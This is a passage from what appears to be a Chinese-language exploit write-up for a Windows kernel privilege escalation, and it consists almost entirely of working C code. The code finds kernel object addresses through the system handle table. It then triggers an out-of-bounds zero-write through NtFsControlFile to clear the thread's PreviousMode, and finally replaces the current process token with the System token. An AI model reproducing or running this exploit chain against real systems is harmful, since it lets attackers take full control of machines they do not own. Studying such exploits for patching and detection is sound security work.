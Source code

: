 ```
    for (ULONG i = 0; i < pHandleInfo->NumberOfHandles; i++)
    {
        if ((pHandleInfo->Handles[i].UniqueProcessId == ulPid) && (pHandleInfo->Handles[i].HandleValue == (unsigned short)handle))
        {
            *ppObjAddr = (ULONG64)pHandleInfo->Handles[i].Object;
            Ret = 0;
            break;
        }
    }
 
done:
    return Ret;
}

```

该函数用户获取当前进程内核对象地址和 system 进程内核对象地址：

```
GetObjPtr(&Sysproc, 4, 4);
GetObjPtr(&Curproc, GetCurrentProcessId(), hCurproc);

```

### 调用 NtFsControlFile 触发漏洞越界写零

```
status = pNtFsControlFile(
    handle,
    NULL,
    NULL,
    NULL,
    &iosb,
    CSC_DEV_FCB_XXX_CONTROL_FILE,
    (void*)(Curthread + KTHREAD_PREVIOUS_MODE_OFFSET - 0x18),
    0,
    NULL,
    0);

```

### 修改当前进程令牌

```
NTSTATUS Write64(_In_ uintptr_t* Dst, _In_ uintptr_t* Src, _In_ size_t Size)
{
    NTSTATUS Status = 0;
    size_t cbNumOfBytesWrite = 0;
 
    Status = pNtWriteVirtualMemory(GetCurrentProcess(), Dst, Src, Size, &cbNumOfBytesWrite);
    if (!NT_SUCCESS(Status))
        return -1;
 
    return Status;
}
// 替换当前进程令牌为系统令牌
Write64(Curproc + EPROCESS_TOKEN_OFFSET, Sysproc + EPROCESS_TOKEN_OFFSET, 0x8);

```
